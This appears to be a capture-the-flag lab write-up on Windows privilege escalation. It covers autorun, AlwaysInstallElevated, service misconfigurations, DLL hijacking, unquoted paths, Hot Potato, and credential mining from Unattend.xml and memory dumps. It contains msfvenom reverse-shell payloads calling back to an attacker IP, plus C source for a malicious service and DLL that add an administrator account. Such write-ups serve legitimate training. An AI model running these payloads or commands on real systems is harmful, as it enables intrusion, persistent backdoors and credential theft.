






# Windows Privilege Escalation Arena

In this room we are going to attempt to escalate from a low level user to an administrator account using different techniques.

### Technique 1: Registry Escalation - Autorun

Use winpeas.exe or Autoruns64.exe from the SystemInternals Utilities to check for programs that are automatically executed such as for example by a login event.

In the example below we can see that program.exe is a Logon Event:



This is great, if we have access to the folder above we can substitute the program.exe for a reverse shell and wait got the Administrator to log in to get a callback.

Using icacls or AccessChk we can confirm that anyone has write access to the program.exe file.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.56.235 lport=4444 -f exe -o program.exe
```



Substitute the old program.exe with the new one, start a listener and login as the Administrator to simulate the trigger.

You got a shell as TCM!

### Technique 2:  Registry Escalation - AlwaysInstallElevated

"AlwaysInstallElevated" is a registry key that, when enabled, allows non-administrative users to install software packages with elevated privileges. This registry key can potentially be used for privilege escalation attacks.

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
#and
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

Both values are 1:


This means we can install an msi package that is in fact a reverse shell that connects back to our machine:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.56.235 lport=4444 -f msi -o setup.msi
```

After that place the payload into the target and execute it:

```
msiexec /quiet /qn /i C:\Temp\setup.msi
```

**</package | /i> <Product.msi>**
Display Options
	**/quiet Quiet mode, no user interaction**
	/q[n|b|r|f]
		Sets user interface level
		**n - No UI**

Enjoy your elevated shell!

Alternatively, you can also use PowerUp.ps1 to 

### Technique 3:  Service Escalation - Registry

Open Powershell and execute:

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```


Users that belong to “NT AUTHORITY\INTERACTIVE” has “FullControl” permission over the registry key. That is our user that logged in via RDP.

If we can compile a malicious executable we should be able to run it as an elevated user by editing this registry key and initializing it.



This malicious c program needs to be compiled:

```
x86_64-w64-mingw32-gcc <.c file> -o <.exe file output>
```

Code of the C file:

```
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 
```

Basically with the command below we are adding a sub key "ImagePath" to the regsvc. Image Path is a registry key that contains thee path of the drivers image file. So if we place an executable in this path we tell the service to start in the image path it is going to run the executable for us.

/T REG_EXPAND_SZ: String value

/d: data

/f: no confirmation

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
```

This will execute the command we passed on the .c file.

### Technique 4:  Service Escalation - Executable Files

Check for services vulnerable using PowerUp.ps1, WinPeas.exe or querying services:

```
wmic service list
sc query
Get-Service
```

After pinpointing the File Permissions Service we can check what user starts this service under StartName.

- LocalSystem: The service runs with the highest privileges (SYSTEM account).
- LocalService: The service runs with limited privileges as the Local Service account.
- NetworkService: The service runs with limited privileges as the Network Service account.
- User Account: The service runs within the context of a specific user account.

```
wmic service filepermsvc
```

Now all we have to do is check if we have permissions over that file and substitute it:

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
icacls "C:\Program Files\File Permissions Service\filepermsvc.exe"
```

After this we start the service and the executable runs with admin privileges.


### Technique 5: Privilege Escalation - Startup Applications

Check if our user has access to the Programs Startup directory:

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

All you have to do is place a payload in the target and wait for the program to call back when a user logs in:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] lport=<port> -f exe -o x.exe
```


### Technique 6: Service Escalation - DLL Hijacking

DLL hijacking, also known as DLL preloading or DLL side-loading, is a privilege escalation technique that involves replacing a legitimate DLL (Dynamic Link Library) file with a malicious one. This technique takes advantage of the way Windows searches for and loads DLL files, potentially allowing an attacker to execute arbitrary code with elevated privileges when a vulnerable application or service is launched.

In the example below the



Using Procmon we can see that the service dllsvc runs an executable which depends on a series of dlls. One of which is placed on a directory we have control over.

We can create a malicious dll with the code below:

```
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

Great, now compile:

```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

Put the file in the correct directory and:

```
sc stop dllsvc & sc start dllsvc
```


### Technique 7: Service Escalation - BinPath

In a Windows Privilege Escalation scenario, another technique to consider is modifying the "binPath" of a service. The "binPath" refers to the executable file associated with a service. By manipulating the "binPath" of a vulnerable service, you may be able to execute arbitrary code with elevated privileges.

We can discover vulnerable services using PowerUp.ps1 or querying for services which the Everyone Group (the group we are part of) can write to:

```
accesschk64.exe -wuvc Everyone *
```

Check if our user has the `SERVICE_CHANGE_CONFIG` permission on a service:

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```



Now we can change the binPath of the service to execute any command with elevated privileges:

```
 sc config daclsvc binpath= "net localgroup administrators user /add"
 sc start daclsvc
```

Great!

### Technique 8: Service Escalation - Unquoted Service Paths

Search for services where the `BINARY_PATH_NAME` field is not confined in quotes.

```
sc qc unquotedsvc
```

Check if the user has writable access to any of the folders.

```
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Unquoted Service Path"
icacls "C:\Program Files\Unquoted Service Path\Common Folder"
```

Since we have write privileges to the Unquoted Service Path folder we can create a common.exe payload.

Create Payload:

```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```

Drop it inside and:

```
sc start unquotedsvc
```


### Technique 9: Potato Escalation - Hot Potato

```
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
```

Invoke exploit using:

```
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

### Technique 10: Password Mining Escalation - Configuration Files

The "C:\Windows\Panther\Unattend.xml" file is a configuration file used during the installation of the Windows operating system. It contains settings and instructions that automate the installation process and configure various aspects of the system.

During the installation of Windows, the Unattend.xml file is read by the Windows Setup program to apply predefined settings, such as regional options, user accounts, network settings, and more. This allows for a customized and streamlined installation experience, especially in enterprise environments where multiple systems need to be set up consistently.

Hence, if not properly removed this file may contain sensitive information such as credentials:

```
type C:\Windows\Panther\Unattend.xml
```



As you can see the password above is in base 64:

```
echo "cGFzc3dvcmQxMjM=" | base64 -d
```

Great we got the password!


### Technique 11: Password Mining Escalation - Memory

You can create a memory dump of a running process using procdump from sysinternals. Services like FTP have the credentials in clear text in memory, try to dump the memory and read the credentials.

The `auxiliary/server/capture/http_basic` module responds to all requests for resources with a HTTP 401. This should cause most browsers to prompt for a credential. If the user enters Basic Auth creds they are sent to the console.

Open task manager and dump process. Check file strings:

```
strings <process> | grep "Authorization: Basic"
```

Decode base64:

```
echo -ne [Base64 String] | base64 -d
```


### Technique 12: Privilege Escalation - Kernel Exploits

Get a Meterpreter shell and run:

```
run post/multi/recon/local_exploit_suggester
```

Use the identified exploit:

```
exploit/windows/local/ms16_014_wmi_recv_notif
```

Success!
